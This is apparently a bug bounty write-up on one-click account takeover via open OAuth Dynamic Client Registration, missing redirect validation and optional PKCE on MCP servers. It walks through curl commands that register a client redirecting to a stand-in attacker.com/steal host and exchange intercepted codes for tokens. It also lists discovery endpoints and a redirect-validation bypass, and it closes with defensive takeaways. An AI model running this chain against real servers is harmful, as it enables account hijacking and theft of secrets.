

# Hunting Account Takeovers in the Wild West of MCP OAuth Servers

**TL;DR:** We discovered that many MCP (Model Context Protocol) servers powering AI integrations like ChatGPT and Claude have critically misconfigured OAuth implementations. Open Dynamic Client Registration (DCR) combined with missing redirect URI validation and optional PKCE enforcement creates a perfect storm for one-click account takeover attacks.

---

## What's an MCP Server Anyway?

If you've been following the AI ecosystem lately, you've probably noticed something interesting: AI assistants are getting *connected*. They can now deploy your code, manage your cloud infrastructure, send emails—basically act as your digital butler.

The magic behind this? **Model Context Protocol (MCP)** servers.

MCP servers act as bridges between AI assistants (like ChatGPT and Claude) and third-party services. When you connect your Netlify account to Claude, for example, an MCP server handles all the authentication and API calls behind the scenes.

Here's the problem: many of these MCP servers were built fast to ride the AI hype wave. And when things are built fast, security often takes a back seat.

---

## The Attack Vector: Open Dynamic Client Registration

Most MCP servers use OAuth 2.0 for authentication. Nothing wrong with that—OAuth is battle-tested. But OAuth has a feature called **Dynamic Client Registration (DCR)** defined in [RFC 7591](https://datatracker.ietf.org/doc/html/rfc7591), and this is where things get spicy.

DCR allows *anyone* to programmatically register a new OAuth client with the authorization server. Legitimate use cases include automated deployment pipelines and developer tooling. But when DCR is left wide open without proper validation? That's a goldmine for attackers.

### The Vulnerability Chain

Here's what we found in vulnerable MCP implementations:

```
┌─────────────────────────────────────────────────────────────────────┐
│                    VULNERABLE CONFIGURATION                         │
├─────────────────────────────────────────────────────────────────────┤
│  ✗ Open DCR endpoint (no authentication required)                   │
│  ✗ Arbitrary redirect_uri accepted (no allowlist)                   │
│  ✗ Public clients allowed (token_endpoint_auth_method: "none")      │
│  ✗ PKCE not enforced despite being supported                        │
│  ✗ Authorization page shows generic domain, not app name            │
└─────────────────────────────────────────────────────────────────────┘
```

When all these misconfigurations align? **One-click ATO.**

---

## The Attack Flow

Let me walk you through how this attack works in practice:



### Step-by-Step Breakdown

**Step 1: Register a Malicious OAuth Client**

```bash
curl -X POST https://vulnerable-mcp.example.app/oauth-server/reg \
  -H "Content-Type: application/json" \
  -d '{
    "client_name": "Totally Legit Helper",
    "redirect_uris": ["https://attacker.com/steal"],
    "grant_types": ["authorization_code", "refresh_token"],
    "response_types": ["code"],
    "token_endpoint_auth_method": "none"
  }'
```

The server happily responds:

```json
{
  "client_id": "abc123xyz...",
  "token_endpoint_auth_method": "none",
  "redirect_uris": ["https://attacker.com/steal"],
  "client_name": "Totally Legit Helper"
}
```

No validation. No questions asked. We now have a registered client pointing to our server.

**Step 2: Craft the Malicious Authorization URL**

```
https://vulnerable-mcp.example.app/oauth-server/auth
  ?response_type=code
  &client_id=abc123xyz
  &redirect_uri=https://attacker.com/steal
  &state=random123
  &scope=read+write
```

Notice what's missing? No `code_challenge` parameter. PKCE isn't enforced.

**Step 3: Victim Clicks the Link**

The victim sees a legitimate-looking domain (`vulnerable-mcp.example.app`). The consent page shows something generic like "MCP Server" or just the domain name—nothing that screams "ATTACKER."

They click "Approve."

**Step 4: Code Interception**

The victim gets redirected to:
```
https://attacker.com/steal?code=AUTHORIZATION_CODE&state=random123
```

**Step 5: Token Exchange Without Authentication**

```bash
curl -X POST https://vulnerable-mcp.example.app/oauth-server/token \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "grant_type=authorization_code" \
  -d "code=AUTHORIZATION_CODE" \
  -d "redirect_uri=https://attacker.com/steal" \
  -d "client_id=abc123xyz"
```

No `client_secret`. No `code_verifier`. Just vibes.

Response:
```json
{
  "access_token": "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...",
  "token_type": "Bearer",
  "expires_in": 3600,
  "refresh_token": "...",
  "scope": "read write"
}
```

**Game over.** We have persistent access to the victim's account.

---

## Our Hunting Methodology

When we started this research, we developed a systematic approach to finding vulnerable MCP servers:

### 1. Subdomain Enumeration

We focused on common MCP patterns:
- `mcp.example.com`
- `api-mcp.example.com`
- `example-mcp.example.app`

### 2. Endpoint Discovery

For each potential MCP server, we probed for OAuth configuration:

```bash
# OAuth Authorization Server Metadata (RFC 8414)
/.well-known/oauth-authorization-server

# Standard OAuth endpoints
/oauth-server/reg
/oauth/register
/.oauth/registration

# MCP-specific endpoints
/mcp
/sse
```

**N.B: When hunting we faced a lot of dupes in big programs - some folks were ahead few days from us** 😃😃😃

### 3. Configuration Analysis

When we found a configuration, we looked for red flags:

```json
{
  "registration_endpoint": "https://target/oauth-server/reg",
  "token_endpoint_auth_methods_supported": ["client_secret_basic", "none"],
  "code_challenge_methods_supported": ["S256"]
}
```

**Red Flags Checklist:**

- `registration_endpoint` exists and is publicly accessible
- `"none"` in `token_endpoint_auth_methods_supported`
-  PKCE supported but not enforced
-  No redirect URI validation on registration

### 4. Validation Criteria

Not every misconfiguration equals a critical bug. Here's how we filtered our findings:

| Discarded (Lower Severity) | Accepted (Critical) |
|---------------------------|---------------------|
| `redirect_uri` visible in consent page | No consent page / auto-redirect |
| App name displayed to user | Generic/spoofable app display |
| Redirect limited to localhost | Arbitrary external URIs allowed |
| PKCE enforced | PKCE optional or missing |

We specifically avoided reporting findings where the user could clearly see they were authorizing access to an unknown or suspicious application—that crosses into phishing territory.

---

## Roadblocks We Hit

Not every hunt is smooth sailing. Here are some walls we ran into:

### Localhost-Only Redirects

Some implementations were smart enough to restrict redirects:

```json
{
  "error": "invalid_redirect_uri",
  "error_description": "redirect_uri must use localhost or registered domain"
}
```

We tried the usual bypasses (`localtest.me`, `127.0.0.1.nip.io`, IPv6 localhost), but well-implemented servers caught these too.

We managed to bypass some using browser schemes `x-safari-https://` etc ...

### Server-Side Redirect Validation

A few servers validated the redirect but had the token response include a `Referer` header pointing to the redirect URI. We hunted for header leakage without success.

### The "Social Engineering" Dismissal

Some programs initially classified our findings as social engineering. We pushed back hard on this—a one-click ATO with no user awareness is fundamentally different from convincing someone to enter credentials on a fake site.

The key argument: **the victim never leaves the trusted domain**. They see `legitimate-mcp.example.app` the entire time. There's no phishing page, no fake login form—just a legitimate OAuth flow weaponized against them.

---

## Real-World Impact: What Can an Attacker Do?

Once you have an access token from a compromised MCP server, the damage potential depends on the service. Here's what we found on one vulnerable implementation:

```json
{
  "tools": [
    {"name": "user-services-reader", "operations": ["get-user"]},
    {"name": "deploy-services-updater", "operations": ["deploy-site"]},
    {"name": "project-services-updater", "operations": [
      "manage-env-vars",
      "create-new-project",
      "update-visitor-access-controls"
    ]},
    {"name": "team-services-reader", "operations": ["get-teams", "get-team"]}
  ]
}
```

**Translation:**
- Access user profile and email
- eploy arbitrary code to production
- Read/write environment variables (API keys, secrets)
- Access team information
- Delete or modify projects

For services integrated with AI assistants, this is particularly nasty. Users are often managing *production infrastructure* through these connections. A compromised token means an attacker could:

1. Inject malicious code into production deployments
2. Exfiltrate secrets and API keys
3. Modify DNS settings
4. Access customer data from form submissions
5. Maintain persistent access via refresh tokens

---


## The Bounty: From Report to Resolution

We reported this vulnerability class to multiple programs. Here's one that went smoothly:


The key to getting these taken seriously? **Clear impact demonstration.** Don't just say "arbitrary redirect possible"—show the full attack chain from registration to token theft to data access.

---

## Key Takeaways

1. **New integrations = new attack surface.** AI assistants connecting to everything means OAuth implementations are popping up everywhere. Many are rushed.

2. **DCR is a double-edged sword.** Convenient for developers, dangerous when misconfigured. If you don't need public registration, disable it.

3. **PKCE isn't optional.** If you support public clients (and MCP servers often do), PKCE must be enforced. Supporting S256 means nothing if you don't require it.

4. **Trust indicators matter.** Users need to understand what they're authorizing. A consent page that just says "MCP Server wants access" is useless.


---

## Credits & Shoutouts

This research was a collaboration. Shoutout to:
- **@poneglyph** - for the initial research direction
- [Kaixuan Luo - Xianbo Wang  - Xianbo Wang - Yanxiang Bi Wing Cheong Lau  Black Hat Talk](https://www.youtube.com/watch?v=__NtTfL0oPw)
- The security teams who took these reports seriously and are actively remediating
- The bug bounty community for continued knowledge sharing

---

## References

- [RFC 6749 - OAuth 2.0 Authorization Framework](https://datatracker.ietf.org/doc/html/rfc6749)
- [RFC 7636 - PKCE](https://datatracker.ietf.org/doc/html/rfc7636)
- [RFC 7591 - Dynamic Client Registration](https://datatracker.ietf.org/doc/html/rfc7591)
- [RFC 8252 - OAuth 2.0 for Native Apps](https://datatracker.ietf.org/doc/html/rfc8252)
- [OAuth 2.0 Security Best Current Practice](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics)
- [OWASP OAuth Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OAuth2_Authorization_Code_Grant_Cheat_Sheet.html)

---

*Happy hunting. Stay ethical. Get paid.*

**— sicksec**